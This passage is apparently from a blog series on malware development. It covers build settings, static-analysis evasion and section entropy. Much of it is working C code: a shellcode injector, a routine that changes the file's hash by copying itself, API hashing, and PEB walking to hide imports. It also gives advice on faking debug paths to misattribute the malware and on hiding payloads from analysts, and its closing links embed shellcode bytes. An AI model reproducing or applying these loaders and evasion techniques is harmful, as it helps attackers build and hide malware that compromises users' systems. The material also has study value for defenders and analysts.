


## Introduction
This is the fourth post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
In the previous part of the series we discussed methods for detecting sandboxes, virtual machines, automated analysis and making manual debugging harder for an analyst.  
In this post we will talk more about compiling and linking the code with Visual Studio. Then we will focus on static analysis and obfuscation.

Note: we assume 64-bit execution environment - some code samples may not work for x86 applications (for example due to hardcoded 8-byte pointer length or different data layout in PE and PEB). Also, error checks and cleanups are ommited in the code samples below.

## Executable creation with Visual Studio

Let's create a new project in Visual Studio and browse through compilation and linking options to see what's there. We will use this simple Metasploit shellcode injector:

```c
void main()
{
	unsigned char shellcode[] = "\\xfc\\x48\\x83 (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}

```

Some of compilation and linking settings may introduce changes to the binary to make it smaller (thus easier to deliver) or more difficult to debug and reverse engineer.

### Compiler options

#### C runtime library (/MT)

First thing we should do is to force application to use [static version of runtime](https://docs.microsoft.com/en-us/cpp/build/reference/md-mt-ld-use-run-time-library) (CRT) library - otherwise it won't run on computers without MSVCRT installed. This may significantly increase the executable size as the necessary libraries must be embedded into it.

When you develop a regular application it's usually better to use shared runtime library available on the system (you can always bundle it within the installer). However it's not the case with malware - we'd like it to be as much portable as possible.

There is a way to decrease executable size and use some of CRT features. We can use `msvcrt.dll` library which is available on every Windows version since 95. We will need to create own version of static library `msvcrt.lib` from the `msvcrt.dll` library as described [here](https://stackoverflow.com/a/39737730). Using custom CRT static library instead of one automatically added by Visual Studio (thanks to `/NODEFAULTLIB` linker argument) allowed to drop the executable size from almost to just around 4 KB. Also, `_NO_CRT_STDIO_INLINE` may have to be defined.

##### EDIT

For more details on using builtin `msvcrt.dll` check out [this great post by Solomon Sklash](https://www.solomonsklash.io/smaller-c-payloads-on-windows.html).

#### Code optimization (/O1, /O2 etc.)

There are two [code optimization](https://docs.microsoft.com/en-us/cpp/build/reference/o1-o2-minimize-size-maximize-speed) strategies - to favour speed or size. Each causes compiler to apply some techniques that change the code and possibly make the assembly a little bit harder to read and understand. For example, a debugger may not be able to evaluate values of certain (optimized) variables. Some instructions can be replaced with less obvious ones which however produce the same result. Inline functions can cause the code to be harder to understand because it will have a less number of logically separated functional blocks.

`__forceinline` directive can be used to mark specific functions to be inlined during compilation, regardless compiler optimization.

### Linker options

#### Debug information (/DEBUG)

There is a very specific debug information - `.PDB` file path - that is placed in the final executable which can contain sensitive information. Just imagine a pedantic developer with organized directory structure and names - `.PDB` file path could be for example: `"C:\\users\\nameSurname\\Desktop\\companyName\\clientName\\assessmentDate\\MaliciousApp\\Release\\MaliciousApp.pdb"`. It's very important to dismiss that information from final executable. We could also craft a fake `.PDB` file path to fool researchers, for example to get our malware attributed to different group.

Be sure to check out [this FireEye article](https://www.fireeye.com/blog/threat-research/2019/08/definitive-dossier-of-devilish-debug-details-part-one-pdb-paths-malware.html) on extracting information from malware samples.

#### UAC settings in manifest (/MANIFESTUAC)

This particular option does not change the code itself however it's worth mentioning.
We can configure the application to prompt user for consent or credentials (depending on system settings) to run with administrative privileges. This can sometimes come in handy as a UAC "bypass" - need higher privileges? Just ask the user! However this may raise suspicions of some users thus should be used ony in specific circumstances. Anyway, we can set [UAC level](https://docs.microsoft.com/en-us/cpp/build/reference/manifestuac-embeds-uac-information-in-manifest) to `highestAvailable` - application will require admin consent or credentials only if the user is a member of local `Administrators` group.

## Static analysis and obfuscation

Let's now focus on some more interesting stuff - what we can do to obfuscate our code. We want as least information as possible to be visible during static inspection of a binary.

Windows executable file (Portable Executable) contains several information particularly interesting from the reverse engineer's perspective: headers, sections headers and content (code, resources etc.), imported and exported functions, timestamp. An analyst can extract a bunch of useful information just by inspecting the executable (without running it). This includes the code, imported functions, hardcoded strings and other data. Static PE file analysis can also indicate use of a packer or other obfuscation techniques. And of course, the easiest thing to do is to calculate the file hash and look it up in a database (VirusTotal etc.).

So, how do we fight static analysis techniques?

### Changing file hash

Knowing that just a single bit change in the file causes its hash to be completely different, we can introduce simple polymorphism to the code. The basic idea is to replicate the executable while for example adding a null byte at the end. More sophisticated approach could include introducing changes to a resource (e.g. icon) embedded in the executable.

I don't think it's possible to delete an executable associated with running process. It's possible though to rename a file which is being executed. However we need to start another process which will wait for the main process to terminate and then modify the binary on disk and relaunch the malicious application. We can also replicate the executable (changing the last character of its name) and modify the copy:

```c
wchar_t oldExecutablePath[MAX_PATH];
wchar_t newExecutablePath[MAX_PATH];
size_t executablePathLength;
GetModuleFileName(NULL, oldExecutablePath, MAX_PATH);
StringCchCopy(newExecutablePath, MAX_PATH, oldExecutablePath);

StringCchLengthW(oldExecutablePath, MAX_PATH, &executablePathLength);
wchar_t mutatingChar = newExecutablePath[executablePathLength - 5];
newExecutablePath[executablePathLength - 5] = mutatingChar / 2 * 2 + !(mutatingChar % 2);
CopyFile(oldExecutablePath, newExecutablePath, FALSE);

HANDLE hFile = CreateFile(newExecutablePath, FILE_APPEND_DATA, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
DWORD bytesWritten;
SetFilePointer(hFile, 0, NULL, FILE_END);
char toWrite[] = "\\0";
WriteFile(hFile, toWrite, 1, &bytesWritten, NULL);
CloseHandle(hFile);
	
// Make sure that newExecutablePath is run next time - e.g. modify persistence entry

```

### Hiding imports via dynamic WinAPI functions resolving

Import Address Table (IAT) stores information about libraries and functions that are used by the application. OS dynamically loads them at the executable startup. Very convinient (well it's just how Windows works) however the table contents can give a lot of information about program functionality. For example memory operations and thread operation functions (`VirtualAlloc`, `VirtualProcect`, `CreateRemoteThread`) can indicate that the application is performing some kind of code injection. `WSASocket` is often used by bind and reverse shells, and `SetWindowsHookEx` by keyloggers.

Our simple code has the following imports (listed using [Dependencies](https://github.com/lucasg/Dependencies) tool:



To hide this information (from static analysis) we can dynamically resolve certain API functions. We could even use syscalls (see userland hooks evasion). For now lets just use `GetModuleHandle` to obtain handle to `kernel32.dll` loaded in memory and then find necessary functions with `GetProcAddress`:

```c
typedef PVOID(WINAPI *PVirtualAlloc)(PVOID, SIZE_T, DWORD, DWORD);
typedef PVOID(WINAPI *PCreateThread)(PSECURITY_ATTRIBUTES, SIZE_T, PTHREAD_START_ROUTINE, PVOID, DWORD, PDWORD);
typedef PVOID(WINAPI *PWaitForSingleObject)(HANDLE, DWORD);

void main()
{
	HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
	PVirtualAlloc funcVirtualAlloc = (PVirtualAlloc)GetProcAddress(hKernel32, "VirtualAlloc");
	PCreateThread funcCreateThread = (PCreateThread)GetProcAddress(hKernel32, "CreateThread");
	PWaitForSingleObject funcWaitForSingleObject = (PWaitForSingleObject)GetProcAddress(hKernel32, "WaitForSingleObject");

	unsigned char shellcode[] = "\\xfc\\x48\\x83 (...) ";
	PVOID shellcode_exec = funcVirtualAlloc(0, sizeof shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = funcCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	funcWaitForSingleObject(hThread, INFINITE);
}

```

Now suspicious functions are resolved dynamically and there's no indication of them in IAT:



Of course we can take obfuscation further and add some irrelevant functions to "fill" the IAT and make the application seemingly more legitimate. Another important thing to do is to encrypt strings with function names - we don't want them to be visible just by grepping the binary.

However our table of imports now contains `GetModuleHandle` and `GetProcAddress` functions which happen to be quite strong indicators of malware, particularly packed executables. Our application may now be even more suspicious than before. Let's hide these imports, too.

#### API hashing

Instead of encoding/encrypting function names (which the application is going to dynamically resolve) we can calculate hashes of all function names exported by a specific library and then select appropriate functions based on a list of such hashes hardcoded in an executable. To do this we can manually walk through the library's export table.

Let's use some simple hashing function like [djb2](http://www.cse.yorku.ca/~oz/hash.html) but replace the `5381` constant with something else. We could use any hashing function along with a salt to defeat easy hash calculation by malware analyst.
We have precalculated hashes for certain `kernel32.dll` imports - all we need to do is browse the library exports and calculate functions names hashes.

```c
typedef PVOID(WINAPI *PVirtualAlloc)(PVOID, SIZE_T, DWORD, DWORD);
typedef PVOID(WINAPI *PCreateThread)(PSECURITY_ATTRIBUTES, SIZE_T, PTHREAD_START_ROUTINE, PVOID, DWORD, PDWORD);
typedef PVOID(WINAPI *PWaitForSingleObject)(HANDLE, DWORD);

unsigned int hash(const char *str)
{
	unsigned int hash = 7759;
	int c;

	while (c = *str++)
		hash = ((hash << 5) + hash) + c;

	return hash;
}

void main()
{
	HMODULE hKernel32 = GetModuleHandle(L"kernel32.dll");
	PVirtualAlloc funcVirtualAlloc;
	PCreateThread funcCreateThread;
	PWaitForSingleObject funcWaitForSingleObject;

	PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)hKernel32;
	PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((PBYTE)hKernel32 + pDosHeader->e_lfanew);
	PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&(pNtHeader->OptionalHeader);
	PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)hKernel32 + pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PULONG pAddressOfFunctions = (PULONG)((PBYTE)hKernel32 + pExportDirectory->AddressOfFunctions);
	PULONG pAddressOfNames = (PULONG)((PBYTE)hKernel32 + pExportDirectory->AddressOfNames);
	PUSHORT pAddressOfNameOrdinals = (PUSHORT)((PBYTE)hKernel32 + pExportDirectory->AddressOfNameOrdinals);

	for (int i = 0; i < pExportDirectory->NumberOfNames; ++i)
	{
		PCSTR pFunctionName = (PSTR)((PBYTE)hKernel32 + pAddressOfNames[i]);
		if (hash(pFunctionName) == 0x80fa57e1)
		{
			funcVirtualAlloc = (PVirtualAlloc)((PBYTE)hKernel32 + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		}
		if (hash(pFunctionName) == 0xc7d73c9b)
		{
			funcCreateThread = (PCreateThread)((PBYTE)hKernel32 + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		}
		if (hash(pFunctionName) == 0x50c272c4)
		{
			funcWaitForSingleObject = (PWaitForSingleObject)((PBYTE)hKernel32 + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		}
	}

	unsigned char shellcode[] = "\\xfc\\x48\\x83";

	PVOID shellcode_exec = funcVirtualAlloc(0, sizeof shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = funcCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	funcWaitForSingleObject(hThread, INFINITE);
}

```

#### Bootstrapping: shellcode-style

Still, we used `GetModuleHandle` function to locate `kernel32.dll` in memory. It's possible to go around this by finding library location in the process environment block.

We can leverage several facts (below applies for x64 architecture; offsets are different for x86):

1. PEB address is located at an address relative to `GS` register: `GS:[0x60]`
2. `_PEB_LDR_DATA` structure (containing information about all loaded modules) is located at `$PEB:[0x18]`
3. Loader data contains pointer to `InMemoryOrderModuleList` at offset `0x20`
4. `InMemoryOrderModuleList` is a doubly linked list of `LDR_DATA_TABLE_ENTRY` structures, each contains `BaseDllName` and `DllBase` of a single module
5. We can browse all loaded modules, find `kernel32.dll` and it's base address
6. Knowing `kernel32.dll` location in memory, we can find its export directory and browse it for `GetProcAddress` function
7. Using `GetProcAddress` we can find other necessary functions and load all needed modules

Let's implement this procedure:

```c
typedef HMODULE(WINAPI *PGetModuleHandleA)(PCSTR);
typedef FARPROC(WINAPI *PGetProcAddress)(HMODULE, PCSTR);

typedef PVOID(WINAPI *PVirtualAlloc)(PVOID, SIZE_T, DWORD, DWORD);
typedef PVOID(WINAPI *PCreateThread)(PSECURITY_ATTRIBUTES, SIZE_T, PTHREAD_START_ROUTINE, PVOID, DWORD, PDWORD);
typedef PVOID(WINAPI *PWaitForSingleObject)(HANDLE, DWORD);

void main()
{
	PPEB pPEB = (PPEB)__readgsqword(0x60);
	PPEB_LDR_DATA pLoaderData = pPEB->Ldr;
	PLIST_ENTRY listHead = &pLoaderData->InMemoryOrderModuleList;
	PLIST_ENTRY listCurrent = listHead->Flink;
	PVOID kernel32Address;
	do
	{
		PLDR_DATA_TABLE_ENTRY dllEntry = CONTAINING_RECORD(listCurrent, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);
		DWORD dllNameLength = WideCharToMultiByte(CP_ACP, 0, dllEntry->FullDllName.Buffer, dllEntry->FullDllName.Length, NULL, 0, NULL, NULL);
		PCHAR dllName = (PCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dllNameLength);
		WideCharToMultiByte(CP_ACP, 0, dllEntry->FullDllName.Buffer, dllEntry->FullDllName.Length, dllName, dllNameLength, NULL, NULL);
		CharUpperA(dllName);
		if (strstr(dllName, "KERNEL32.DLL"))
		{
			kernel32Address = dllEntry->DllBase;
			HeapFree(GetProcessHeap(), 0, dllName);
			break;
		}
		HeapFree(GetProcessHeap(), 0, dllName);
		listCurrent = listCurrent->Flink;
	} while (listCurrent != listHead);

	PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)kernel32Address;
	PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((PBYTE)kernel32Address + pDosHeader->e_lfanew);
	PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&(pNtHeader->OptionalHeader);
	PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)kernel32Address + pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PULONG pAddressOfFunctions = (PULONG)((PBYTE)kernel32Address + pExportDirectory->AddressOfFunctions);
	PULONG pAddressOfNames = (PULONG)((PBYTE)kernel32Address + pExportDirectory->AddressOfNames);
	PUSHORT pAddressOfNameOrdinals = (PUSHORT)((PBYTE)kernel32Address + pExportDirectory->AddressOfNameOrdinals);

	PGetModuleHandleA pGetModuleHandleA = NULL;
	PGetProcAddress pGetProcAddress = NULL;

	for (int i = 0; i < pExportDirectory->NumberOfNames; ++i)
	{
		PCSTR pFunctionName = (PSTR)((PBYTE)kernel32Address + pAddressOfNames[i]);
		if (!strcmp(pFunctionName, "GetModuleHandleA"))
		{
			pGetModuleHandleA = (PGetModuleHandleA)((PBYTE)kernel32Address + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		}
		if (!strcmp(pFunctionName, "GetProcAddress"))
		{
			pGetProcAddress = (PGetProcAddress)((PBYTE)kernel32Address + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		}
	}

	HMODULE hKernel32 = pGetModuleHandleA("kernel32.dll");
	PVirtualAlloc funcVirtualAlloc = (PVirtualAlloc)pGetProcAddress(hKernel32, "VirtualAlloc");
	PCreateThread funcCreateThread = (PCreateThread)pGetProcAddress(hKernel32, "CreateThread");
	PWaitForSingleObject funcWaitForSingleObject = (PWaitForSingleObject)pGetProcAddress(hKernel32, "WaitForSingleObject");

	unsigned char shellcode[] = "\\xfc\\x48\\x83 (...) ";
	PVOID shellcode_exec = funcVirtualAlloc(0, sizeof shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = funcCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	funcWaitForSingleObject(hThread, INFINITE);
}

```

### PE analysis and indicators

While statically examining a malicious sample, malware analysts look at PE file structure and contents. This data may reveal certain details about the application and help classify it as a malware. We talked about imports, now let's focus on other PE sections, embedded resources and timestamps.

#### Sections

The thing to note here is that we should ensure that section names reflect a legitimate, compiled PE structure. For example, packers may change sections names to random character strings or even obvious indicators of packer software (`UPX0`, `UPX1` etc.).

Adding a new section may also raise suspicions - it may be better idea to store data in the existing resources section.

Also, section raw size (size on disk) should usually be almost equal to virtual size (size in memory when the image is loaded) - small differences are common due to different memory alignments (disk vs RAM). For example, `.text` section with raw size of `0` and virtual size of hundreds of KBs probably means that the actual executable was packed.

#### Resources

We can embed any data in the executable as a resource - for example an icon, a decoy document or a shellcode. However everything will be visible with `Resource Hacker` or any similar tool. It is a good idea to embed malicious resources encrypted or using steganography to make it more difficult to inspect them.

#### Timestamp

PE header contains `TimeDateStamp` 4-byte field which is Unix time of compilation. This can be easily changed (for example with hex editor) to hide the actual compilation date.

### Entropy analysis

Entropy analysis can be used to easily find potentially encrypted content embedded in the executable. Encrypted data usually has relatively high entropy (almost 8 bits). The same applies for compressed data.

We can use this simple Python script (be sure to install `pefile` module) to calculate the entropy of PE file sections:

```py
import sys
import math
import pefile
import peutils

def Entropy(data):
	entropy = 0  
	if not data:
		return 0
	ent = 0
	for x in range(256):
		p_x = float(data.count(x))/len(data)
		if p_x > 0:
			entropy += - p_x*math.log(p_x, 2)
	return entropy

pe=pefile.PE(sys.argv[1])
for s in pe.sections:
	print (s.Name.decode('utf-8').strip('\\x00') + "\\t" + str(Entropy(s.get_data())))

```

Let's start with simple shellcode loader we developed before. Here's sections entropy:

```
.text   4.616090501867742
.rdata  5.4577520758849944
.pdata  0.10191042566270775
.rsrc   4.7015032582517895

```

Application code located in `.text.` section has entropy comparable with human language text. Shellcode is located in `.rdata` section which has a slightly higher entropy.

Now let's embed some large blob of encrypted data, for example by adding a resource to the executable. As we can see below, the `.rsrc` section probably contains some encrypted or compressed data. Actually, it could be some image or any other file format which uses compression.

```
.text   4.616090501867742
.rdata  5.458570681613711
.pdata  0.10191042566270775
.rsrc   7.95737230129355

```

To simply manipulate the entropy of a data block, we could use Base64 encoding. See the entropy values for
[plain shellcode](https://gchq.github.io/CyberChef/#recipe=From_Hex('%5C%5Cx')Entropy('Shannon%20scale')&input=XHhmY1x4NDhceDgzXHhlNFx4ZjBceGU4XHhjMFx4MDBceDAwXHgwMFx4NDFceDUxXHg0MVx4NTBceDUyXHg1MVx4NTZceDQ4XHgzMVx4ZDJceDY1XHg0OFx4OGJceDUyXHg2MFx4NDhceDhiXHg1Mlx4MThceDQ4XHg4Ylx4NTJceDIwXHg0OFx4OGJceDcyXHg1MFx4NDhceDBmXHhiN1x4NGFceDRhXHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4M2NceDYxXHg3Y1x4MDJceDJjXHgyMFx4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceGUyXHhlZFx4NTJceDQxXHg1MVx4NDhceDhiXHg1Mlx4MjBceDhiXHg0Mlx4M2NceDQ4XHgwMVx4ZDBceDhiXHg4MFx4ODhceDAwXHgwMFx4MDBceDQ4XHg4NVx4YzBceDc0XHg2N1x4NDhceDAxXHhkMFx4NTBceDhiXHg0OFx4MThceDQ0XHg4Ylx4NDBceDIwXHg0OVx4MDFceGQwXHhlM1x4NTZceDQ4XHhmZlx4YzlceDQxXHg4Ylx4MzRceDg4XHg0OFx4MDFceGQ2XHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceDM4XHhlMFx4NzVceGYxXHg0Y1x4MDNceDRjXHgyNFx4MDhceDQ1XHgzOVx4ZDFceDc1XHhkOFx4NThceDQ0XHg4Ylx4NDBceDI0XHg0OVx4MDFceGQwXHg2Nlx4NDFceDhiXHgwY1x4NDhceDQ0XHg4Ylx4NDBceDFjXHg0OVx4MDFceGQwXHg0MVx4OGJceDA0XHg4OFx4NDhceDAxXHhkMFx4NDFceDU4XHg0MVx4NThceDVlXHg1OVx4NWFceDQxXHg1OFx4NDFceDU5XHg0MVx4NWFceDQ4XHg4M1x4ZWNceDIwXHg0MVx4NTJceGZmXHhlMFx4NThceDQxXHg1OVx4NWFceDQ4XHg4Ylx4MTJceGU5XHg1N1x4ZmZceGZmXHhmZlx4NWRceDQ5XHhiZVx4NzdceDczXHgzMlx4NWZceDMzXHgzMlx4MDBceDAwXHg0MVx4NTZceDQ5XHg4OVx4ZTZceDQ4XHg4MVx4ZWNceGEwXHgwMVx4MDBceDAwXHg0OVx4ODlceGU1XHg0OVx4YmNceDAyXHgwMFx4MTFceDVjXHgwMFx4MDBceDAwXHgwMFx4NDFceDU0XHg0OVx4ODlceGU0XHg0Y1x4ODlceGYxXHg0MVx4YmFceDRjXHg3N1x4MjZceDA3XHhmZlx4ZDVceDRjXHg4OVx4ZWFceDY4XHgwMVx4MDFceDAwXHgwMFx4NTlceDQxXHhiYVx4MjlceDgwXHg2Ylx4MDBceGZmXHhkNVx4NTBceDUwXHg0ZFx4MzFceGM5XHg0ZFx4MzFceGMwXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMyXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMxXHg0MVx4YmFceGVhXHgwZlx4ZGZceGUwXHhmZlx4ZDVceDQ4XHg4OVx4YzdceDZhXHgxMFx4NDFceDU4XHg0Y1x4ODlceGUyXHg0OFx4ODlceGY5XHg0MVx4YmFceGMyXHhkYlx4MzdceDY3XHhmZlx4ZDVceDQ4XHgzMVx4ZDJceDQ4XHg4OVx4ZjlceDQxXHhiYVx4YjdceGU5XHgzOFx4ZmZceGZmXHhkNVx4NGRceDMxXHhjMFx4NDhceDMxXHhkMlx4NDhceDg5XHhmOVx4NDFceGJhXHg3NFx4ZWNceDNiXHhlMVx4ZmZceGQ1XHg0OFx4ODlceGY5XHg0OFx4ODlceGM3XHg0MVx4YmFceDc1XHg2ZVx4NGRceDYxXHhmZlx4ZDVceDQ4XHg4MVx4YzRceGEwXHgwMlx4MDBceDAwXHg0OVx4YjhceDYzXHg2ZFx4NjRceDAwXHgwMFx4MDBceDAwXHgwMFx4NDFceDUwXHg0MVx4NTBceDQ4XHg4OVx4ZTJceDU3XHg1N1x4NTdceDRkXHgzMVx4YzBceDZhXHgwZFx4NTlceDQxXHg1MFx4ZTJceGZjXHg2Nlx4YzdceDQ0XHgyNFx4NTRceDAxXHgwMVx4NDhceDhkXHg0NFx4MjRceDE4XHhjNlx4MDBceDY4XHg0OFx4ODlceGU2XHg1Nlx4NTBceDQxXHg1MFx4NDFceDUwXHg0MVx4NTBceDQ5XHhmZlx4YzBceDQxXHg1MFx4NDlceGZmXHhjOFx4NGRceDg5XHhjMVx4NGNceDg5XHhjMVx4NDFceGJhXHg3OVx4Y2NceDNmXHg4Nlx4ZmZceGQ1XHg0OFx4MzFceGQyXHg0OFx4ZmZceGNhXHg4Ylx4MGVceDQxXHhiYVx4MDhceDg3XHgxZFx4NjBceGZmXHhkNVx4YmJceGYwXHhiNVx4YTJceDU2XHg0MVx4YmFceGE2XHg5NVx4YmRceDlkXHhmZlx4ZDVceDQ4XHg4M1x4YzRceDI4XHgzY1x4MDZceDdjXHgwYVx4ODBceGZiXHhlMFx4NzVceDA1XHhiYlx4NDdceDEzXHg3Mlx4NmZceDZhXHgwMFx4NTlceDQxXHg4OVx4ZGFceGZmXHhkNQ),
[AES-encrypted](https://gchq.github.io/CyberChef/#recipe=From_Hex('%5C%5Cx')AES_Encrypt(%7B'option':'Hex','string':'42138947829316abfa38addd8239088a'%7D,%7B'option':'Hex','string':'983274bfbca8dde7938454875984aa7d'%7D,'CBC','Raw','Raw')Entropy('Shannon%20scale')&input=XHhmY1x4NDhceDgzXHhlNFx4ZjBceGU4XHhjMFx4MDBceDAwXHgwMFx4NDFceDUxXHg0MVx4NTBceDUyXHg1MVx4NTZceDQ4XHgzMVx4ZDJceDY1XHg0OFx4OGJceDUyXHg2MFx4NDhceDhiXHg1Mlx4MThceDQ4XHg4Ylx4NTJceDIwXHg0OFx4OGJceDcyXHg1MFx4NDhceDBmXHhiN1x4NGFceDRhXHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4M2NceDYxXHg3Y1x4MDJceDJjXHgyMFx4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceGUyXHhlZFx4NTJceDQxXHg1MVx4NDhceDhiXHg1Mlx4MjBceDhiXHg0Mlx4M2NceDQ4XHgwMVx4ZDBceDhiXHg4MFx4ODhceDAwXHgwMFx4MDBceDQ4XHg4NVx4YzBceDc0XHg2N1x4NDhceDAxXHhkMFx4NTBceDhiXHg0OFx4MThceDQ0XHg4Ylx4NDBceDIwXHg0OVx4MDFceGQwXHhlM1x4NTZceDQ4XHhmZlx4YzlceDQxXHg4Ylx4MzRceDg4XHg0OFx4MDFceGQ2XHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceDM4XHhlMFx4NzVceGYxXHg0Y1x4MDNceDRjXHgyNFx4MDhceDQ1XHgzOVx4ZDFceDc1XHhkOFx4NThceDQ0XHg4Ylx4NDBceDI0XHg0OVx4MDFceGQwXHg2Nlx4NDFceDhiXHgwY1x4NDhceDQ0XHg4Ylx4NDBceDFjXHg0OVx4MDFceGQwXHg0MVx4OGJceDA0XHg4OFx4NDhceDAxXHhkMFx4NDFceDU4XHg0MVx4NThceDVlXHg1OVx4NWFceDQxXHg1OFx4NDFceDU5XHg0MVx4NWFceDQ4XHg4M1x4ZWNceDIwXHg0MVx4NTJceGZmXHhlMFx4NThceDQxXHg1OVx4NWFceDQ4XHg4Ylx4MTJceGU5XHg1N1x4ZmZceGZmXHhmZlx4NWRceDQ5XHhiZVx4NzdceDczXHgzMlx4NWZceDMzXHgzMlx4MDBceDAwXHg0MVx4NTZceDQ5XHg4OVx4ZTZceDQ4XHg4MVx4ZWNceGEwXHgwMVx4MDBceDAwXHg0OVx4ODlceGU1XHg0OVx4YmNceDAyXHgwMFx4MTFceDVjXHgwMFx4MDBceDAwXHgwMFx4NDFceDU0XHg0OVx4ODlceGU0XHg0Y1x4ODlceGYxXHg0MVx4YmFceDRjXHg3N1x4MjZceDA3XHhmZlx4ZDVceDRjXHg4OVx4ZWFceDY4XHgwMVx4MDFceDAwXHgwMFx4NTlceDQxXHhiYVx4MjlceDgwXHg2Ylx4MDBceGZmXHhkNVx4NTBceDUwXHg0ZFx4MzFceGM5XHg0ZFx4MzFceGMwXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMyXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMxXHg0MVx4YmFceGVhXHgwZlx4ZGZceGUwXHhmZlx4ZDVceDQ4XHg4OVx4YzdceDZhXHgxMFx4NDFceDU4XHg0Y1x4ODlceGUyXHg0OFx4ODlceGY5XHg0MVx4YmFceGMyXHhkYlx4MzdceDY3XHhmZlx4ZDVceDQ4XHgzMVx4ZDJceDQ4XHg4OVx4ZjlceDQxXHhiYVx4YjdceGU5XHgzOFx4ZmZceGZmXHhkNVx4NGRceDMxXHhjMFx4NDhceDMxXHhkMlx4NDhceDg5XHhmOVx4NDFceGJhXHg3NFx4ZWNceDNiXHhlMVx4ZmZceGQ1XHg0OFx4ODlceGY5XHg0OFx4ODlceGM3XHg0MVx4YmFceDc1XHg2ZVx4NGRceDYxXHhmZlx4ZDVceDQ4XHg4MVx4YzRceGEwXHgwMlx4MDBceDAwXHg0OVx4YjhceDYzXHg2ZFx4NjRceDAwXHgwMFx4MDBceDAwXHgwMFx4NDFceDUwXHg0MVx4NTBceDQ4XHg4OVx4ZTJceDU3XHg1N1x4NTdceDRkXHgzMVx4YzBceDZhXHgwZFx4NTlceDQxXHg1MFx4ZTJceGZjXHg2Nlx4YzdceDQ0XHgyNFx4NTRceDAxXHgwMVx4NDhceDhkXHg0NFx4MjRceDE4XHhjNlx4MDBceDY4XHg0OFx4ODlceGU2XHg1Nlx4NTBceDQxXHg1MFx4NDFceDUwXHg0MVx4NTBceDQ5XHhmZlx4YzBceDQxXHg1MFx4NDlceGZmXHhjOFx4NGRceDg5XHhjMVx4NGNceDg5XHhjMVx4NDFceGJhXHg3OVx4Y2NceDNmXHg4Nlx4ZmZceGQ1XHg0OFx4MzFceGQyXHg0OFx4ZmZceGNhXHg4Ylx4MGVceDQxXHhiYVx4MDhceDg3XHgxZFx4NjBceGZmXHhkNVx4YmJceGYwXHhiNVx4YTJceDU2XHg0MVx4YmFceGE2XHg5NVx4YmRceDlkXHhmZlx4ZDVceDQ4XHg4M1x4YzRceDI4XHgzY1x4MDZceDdjXHgwYVx4ODBceGZiXHhlMFx4NzVceDA1XHhiYlx4NDdceDEzXHg3Mlx4NmZceDZhXHgwMFx4NTlceDQxXHg4OVx4ZGFceGZmXHhkNQ),
